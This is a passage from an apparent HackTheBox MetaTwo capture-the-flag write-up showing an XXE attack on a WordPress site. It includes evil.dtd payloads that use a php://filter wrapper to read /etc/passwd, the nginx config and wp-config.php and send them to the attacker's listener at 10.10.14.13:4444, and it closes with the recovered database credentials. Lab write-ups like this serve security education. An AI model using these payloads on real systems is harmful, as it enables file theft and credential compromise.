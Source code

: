 		> Why do we need `evil.dtd`?
		> - The dtd file contains payload to exfiltrate file.
		> - By referencing an external malicious DTD file (evil.dtd), we are able to exfiltrate our desired file.
		{: prompt-info}
	3. Host  `evil.dtd`
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# php -S 0.0.0.0:4444
		[Mon Nov 28 16:42:18 2022] PHP 8.1.5 Development Server (http://0.0.0.0:4444) started
		```
	4. Exfiltrate file `/etc/passwd`
		![](EzVySJ7XON.gif)
		> Why `/etc/passwd` ?
		> - This is to find out whether the XXE exploit works, since `/etc/passwd` is found in every Linux system.
		> - Also, to find out user accounts on the Linux system.
		{: prompt-info}
	5. To proceed, we have to include something useful, the next thing that comes to my mind is to include `wp-config.php`, as it contains credentials. However, we do not know the full path of the web root directory. Let's find out!
	6. Earlier, we found out that the web server is running 
		> - `nginx 1.18.0` 
		> - Virtual Host is used (due to redirecting from metatwo.htb -> metapress.htb)
		{: prompt-info}
	7. We are able to find out the root web directory by including the virtual host configuration file 
		> - `nginx` virtual host configuration file (`/etc/nginx/sites-available/default`) contains the web root directory for every virtual host configured.
		> - This initial foothold method is very similar to [HackTheBox - Trick](https://yufongg.github.io/posts/Trick/)
		{: prompt-info}
5. Create `evil.dtd` to exfiltrate `/etc/nginx/sites-available/default`
	```xml
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/nginx/sites-available/default">
	<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
	```
6. Exfiltrate `/etc/nginx/sites-available/default`
	![](Pasted%20image%2020221128174841.png)
	> Web Root Directory
	> - `/var/www/metapress.htb/blog`
	{: prompt-info}
7. Create `evil.dtd` to exfiltrate `/var/www/metapress.htb/blog/wp-config.php`
	```xml
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
	<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
	```
8. Exfiltrate `wp-config.php`
	![](Pasted%20image%2020221128175328.png)
> Valid Credential s
> - `blog:635Aq@TdqrCwXFUZ`
> - `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
{: prompt-info}
